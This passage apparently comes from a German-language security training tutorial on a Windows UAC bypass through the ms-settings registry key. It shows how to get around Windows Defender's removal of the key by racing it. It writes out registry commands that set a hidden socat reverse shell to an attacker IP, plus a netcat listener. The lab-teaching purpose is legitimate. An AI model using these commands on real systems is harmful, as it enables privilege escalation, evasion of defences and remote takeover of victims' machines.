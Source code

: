 ![2024-07-08-8faadca4b214e13d32a6e7979554dcdc.png](Bilder/2024-07-08-8faadca4b214e13d32a6e7979554dcdc.png)

Wenn Sie den entsprechenden Wert in der Registrierung abfragen, werden Sie feststellen, dass er gelöscht wurde:
```cmd
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
```

Obwohl es nun so aussieht, als würde unser Exploit mit aktiviertem Windows Defender nicht funktionieren, prüfen Sie, was passiert, wenn Sie die gleichen Befehle mit einer kleinen Änderung ausführen (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):
```cmd
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```

Wir haben eine schnelle Abfrage des beanstandeten Registrierungswertes unmittelbar nach dem Setzen auf den für unsere Reverse-Shell erforderlichen Befehl hinzugefügt. Überraschenderweise gibt die Abfrage unseren Befehl unverändert zurück. Wir werden weiterhin von Windows Defender benachrichtigt, und eine Sekunde später wird der beanstandete Registrierungswert wie erwartet gelöscht. Es scheint, dass Windows Defender einen Moment braucht, um auf unseren Exploit zu reagieren. Stellen Sie also einen Reverse-Listener auf dem Angreifer-Rechner ein:
`nc -lvp 4444`

